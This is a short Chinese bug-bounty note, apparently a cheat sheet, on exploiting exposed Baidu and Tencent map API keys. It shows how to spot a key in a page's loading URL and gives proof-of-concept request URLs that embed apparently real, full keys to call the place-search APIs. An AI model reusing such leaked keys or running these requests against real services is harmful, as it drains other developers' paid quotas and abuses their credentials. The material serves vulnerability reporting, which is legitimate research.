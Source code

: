 地图 API 接管漏洞会导致该 Key 被出售给其它开发者或恶意消耗 API;

将会导致地图加载异常，显示报错信息, 无法获取使用者的地理定位等.

## 1. 百度地图

### 1.1. 特征

```
https://api.map.baidu.com/api?v=1.0&&type=webgl&ak=SA1vncDqp8vNAVIn1WUGIQkE7G5cDdbP
```

### 1.2. PoC

<span style="filter: blur(5px);">111111111</span>

```
https://api.map.baidu.com/place/v2/search?query=ATM&tag=银行&region=上海&output=json&ak=SA1vncDqp8vNAVIn1WUGIQkE7G5cDdbP
```

## 2. 腾讯地图

### 2.1. 特征

```
https://map.qq.com/api/gljs?v=1.exp&key=DKCBZ-SYCCU-OZ2VP-2ES3Z-ZQHQ6-6FFW6
```

### 2.2. PoC

```
https://apis.map.qq.com/ws/place/v1/search?keyword=银行&boundary=nearby(31.2304,121.4737,1000)&key=DKCBZ-SYCCU-OZ2VP-2ES3Z-ZQHQ6-6FFW6
```

---

- [“地图API后台配置错误”:挖SRC的新玩具？](https://www.freebuf.com/articles/web/360331.html)

